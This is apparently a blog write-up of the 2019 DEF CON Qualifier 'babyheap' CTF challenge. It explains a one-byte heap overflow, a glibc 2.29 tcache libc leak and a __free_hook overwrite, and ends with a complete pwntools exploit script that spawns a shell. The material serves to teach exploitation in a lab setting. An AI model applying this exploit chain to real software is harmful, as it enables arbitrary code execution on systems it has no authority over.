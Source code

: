 ```yaml
---
layout: post
cover: 'assets/images/cover8.jpg'
navigation: true
title: '2019 DEF CON QUAL - babyheap'
date: 2019-05-29
tags: pwnable writeup
subclass: 'post'
logo: 'assets/images/ghost.png'
author: lanphere
categories: lanphere
disqus: true
---
```


I solved this challenge after CTF. So interesting.
I realized a new heap exploit technique via this challenge.

### Challenge

```
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
> 
```

Seems like common heap challenge. We can allocate up to 10 chunks.
If input size for allocation is between 0 and 248(0xf8), malloc(0xf8).
If input is between 249 and 376(0x178), malloc(0x178).

### Vulnearbility

```
read(0, &buf, 1uLL);
size = (unsigned int)size;
cur_len = 0LL;
v4 = &chunks[2 * i];
// 1byte overflow
while ( buf != '\n' && buf )
{
  *(_BYTE *)(*v4 + cur_len) = buf;
  read(0, &buf, 1uLL);
  if ( size == cur_len )
    return 0LL;
  ++cur_len;
}
```

The vulnerability is that there is one-byte overflow getting input. So we can overwrite the lower one byte of size field of adjacent chunk.

The overall idea is as follows. 
1. There are three chunks. Size field of second chunk should be 0x101(chunks that are allocated with malloc(0xf8)).
2. Then free the first chunk and allocate with the same size, and overwrite size filed of second chunk with 0x181(size same as the size of chunk via malloc(0x178)).
3. Free the second chunk and allocate again. Then we can overwrite large part of third chunk.

The reason that this vulnerability is possible is that this challenge uses glibc version of 2.29, which uses tcache, and tcache doesn't check the next chunk of to-be-freed chunk.

### Libc Leak

To leak base address of libc, the scenario is as follows.
1. Allocate two chunks. Size of second chunk shoud be 0x101.
2. Allocate 7 chunks whose size are 0x181.
3. Free chunks whose indexes are between 3 and 9.(tcache becomes saturated with 7 chunks)
4. Free second chunk. This freed chunk goes in unsorted bin
5. Allocate a 0x178-size chunk. Then third chunk is overwritten with size field of 0x80 and fd value of libc address. (pointer of third chunk is not deleted)

### Exploit

After libc leak, the rest is easy. Again using the idea explained above, this time we overwrite fd value of adjacent chunk with address of __free_hook,
and overwrite __free_hook with address of one gadget.

```
from pwn import *

bin = ELF('./babyheap')
libc = ELF('./libc.so', checksec=False)

context.log_level = 'debug'

one_gadget_offset = [0xe237f, 0xe2383, 0xe2386, 0x106ef8]


def malloc(size, content):
    conn.sendafter('Command:\n> ', 'M')
    conn.sendafter('Size:\n> ', str(size))
    conn.sendafter('Content:\n> ', content)


def free(idx):
    conn.sendafter('> ', 'F')
    conn.sendafter('> ', str(idx))


def show(idx):
    conn.sendafter('> ', 'S')
    conn.sendafter('> ', str(idx))


conn = process('./babyheap', env={'LD_PRELOAD': './libc.so'})
# gdb.attach(conn, '')

# Libc Leak
malloc(0xf8, 'AAAAAAA\n')
malloc(0xf8, 'BBBBBBB\n')
for i in range(8):
    malloc(0x178, 'AAAAAAAABBBBBBBB' * 7 +
           'CCCCCCCC' + '\x01\x01\x00')  # 2 ~ 9

for i in range(3, 10):
    free(i)

free(0)
malloc(0xf8, 'AAAAAAAA' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(1)
malloc(0xf8, 'DDDDDDD\n')

show(2)
libc_addr = u64(conn.recv(6) + '\x00\x00') - 0x1e4ca0
log.info('Libc_addr: ' + hex(libc_addr))

"""
Current State
idx 0: chunk(0xf8)
idx 1: chunk(0xf8)
idx 2: chunk(0x80)
idx 3: NULL

bin: tcache bin of chunk size 0x181 saturated
"""
malloc(0x178, 'EEEEEEE\n')  # 3rd
malloc(0x178, 'FFFFFFF\n')  # 4th
malloc(0xf8, 'GGGGGGG\n')  # 5th
malloc(0xf8, 'HHHHHHH\n')  # 6th
malloc(0xf8, 'IIIIIII\n')  # 7th

free(6)
malloc(0xf8, 'JJJJJJJJ' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(7)

free(5)
malloc(0xf8, 'KKKKKKKK' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(6)

p = 'LLLLLLLL'*2*0xf + 'BBBBBBBB'*2
p += p64(libc_addr + libc.symbols['__free_hook'])[:-1]

malloc(0x178, p)
malloc(0x178, 'MMMMMMM\n')
malloc(0x178, p64(libc_addr + one_gadget_offset[1])[:-1])

free(0)

conn.interactive()
```